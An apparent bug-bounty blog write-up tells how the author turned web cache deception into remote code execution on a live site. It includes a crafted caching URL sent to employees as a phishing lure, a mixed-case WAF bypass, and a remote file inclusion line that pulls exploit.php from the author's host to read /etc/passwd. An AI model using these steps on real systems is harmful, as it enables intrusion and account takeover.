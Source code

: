 ```yaml
---
layout: post
published: true
title: web cache deception to rce
tags:
  - bug hunting
  - 
comments: true
---
```


hello folks ! here is my article of how i was able to exploit web cache deception to obtain rce :3 i was doing resarch on web cache deception and i decide to penetst it on real web
then i found a website which was vulnerable to web cache deception attack ..before starting attack let's clear doubt about web cache deception

**concept of web cache deception**

website uses cdn's for storing local cached copy of webpage like pdf,css.etc. so that when user revisits to that website the website will work faster and also for reducing loads
suppose two user bob and alice have two accounts on a website which is vulnerable to web cache deception alice is a hacker and bob is a victim..allice(attacker) 
send a link to victim bob like this : 
https://www.example.com/user/account/l.css
now what happened if bob opens this link his cache copy will stored to server and alice can easily takeover account of bob by retriving cache from server thats the simple mechanism of
web cache deception now lets move towards attack :)

**attack scenario**

i founded a web which was vulnerable to web cache deception but nothing was in that web application i founded a subdomain of same web application where only employee can access their
account that subdomain was made for employees i can't login to that subdomain.. i captured the login request of that subdomain i saw there was no header of pragma cache to avoid web 
cache deception attack ...i quicly extracted email of workers of that web applict ation thanx to <a href="https://www.phonebook..cz">phonebook</a> and after recon of 4 hours i was able 
to determine blueprint of employee panel in my mind when an employee login to that account he got redirectited to index.php i made a url something like this: https://www.example.com/
index.php/app0ly.css ans sends to that gmail and tricked them to open the link after few hours i open my linked and i saw that some one open the links ^__^ so i takeover someone account
but there was the problem i can only see the content of index.php when i go to setiings or any other option web application throws awy me from session *_*..

**escilating to rce** 

after spending few hours with capturing and sending request i saw there was a hidden java file in source code of index.php thanx to: <a href="https://www.waybackmachine.com">wayback</a>
after reaading the java file i got few parameters but most intresting waas parameter "?url=" and file?=...whic was something like "https://www.expample.php?url=" i tried to do ssrf but failed seems like htttp and https:// protocol was 
banned by WAF i tried various combinations like htTps:// , HTTPs:// etc. luckily, HttPs:// workred in my case and i got open redirection then i tried to test for remote file inculsion 
i created a payload for retriving "/etc/passwd" file i hosted that paylaod on my website and tried to fetch that mine v=webiste to vulnerable website like this:

www.example.com/index.php?file=HTtps://www.mywebsite.com/exploit.php

and voila! i was able to reterive /etc/passwd file and also able to obtain rce :( and pawned that web application i sent a report to them they patched the bug ^__^ 
that was about how i escilate the web cache to rce ! 

any privte programs :
send it to : <a href="mailto:nhibtaungamain@gmail.com">mohit</a>

tags: exploit

